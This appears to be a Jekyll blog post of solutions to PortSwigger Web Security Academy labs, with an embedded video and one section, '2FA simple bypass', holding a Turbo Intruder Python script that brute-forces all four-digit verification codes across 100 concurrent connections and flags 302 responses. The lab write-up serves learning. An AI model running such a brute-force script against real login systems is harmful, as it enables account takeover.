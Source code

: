 ```yaml
---
layout: post
title:  "PortSwigger WebSecurity Academy"
date:   2022-04-02
categories: 
---
```


<iframe width="560" height="315" src="https://www.youtube.com/embed/iYbM89TuZkw" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

{% capture details %}
{% highlight python linenos=table %}
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=100,
                           requestsPerConnection=1,
                           pipeline=True
                           )
    engine.start()

    for i in range(10000):
        engine.queue(target.req, '{0:04}'.format(i))

def handleResponse(req, interesting):
    if '302' in req.response:
        table.add(req)

{% endhighlight %}
{% endcapture %}
{% capture summary %} 
### 2FA simple bypass 
{% endcapture %}{% include details.html %}
